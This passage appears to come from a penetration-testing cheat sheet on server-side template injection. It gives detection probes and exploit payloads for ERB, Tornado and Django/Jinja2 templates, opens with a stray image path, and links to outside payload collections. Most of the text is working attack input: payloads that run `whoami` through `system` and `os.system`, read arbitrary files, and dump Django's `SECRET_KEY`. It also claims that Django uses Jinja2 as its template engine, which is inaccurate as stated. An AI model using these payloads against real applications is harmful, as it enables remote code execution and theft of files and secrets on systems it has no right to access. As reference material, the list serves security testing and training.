 #### More information

* [http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html](http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)

### ERB \(Ruby\)

* `{{7*7}} = {{7*7}}`
* `${7*7} = ${7*7}`
* `<%= 7*7 %> = 49`
* `<%= foobar %> = Error`

```text
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```

#### More information

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection\#ruby](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby)

### Tornado \(Python\)

* `{{7*7}} = 49`
* `${7*7} = ${7*7}`
* `{{foobar}} = Error`
* `{{7*'7'}} = 7777777`

```text
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
```

#### More information

### Django Tricks \(Python\)

Django is going to be using as template engine **Jinja2**.

* `{{7*7}} = Error`
* `${7*7} = ${7*7}`
* `{{foobar}} Nothing`

```text
{% debug %}
{{settings.SECRET_KEY}}
```

#### More information

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection\#jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)
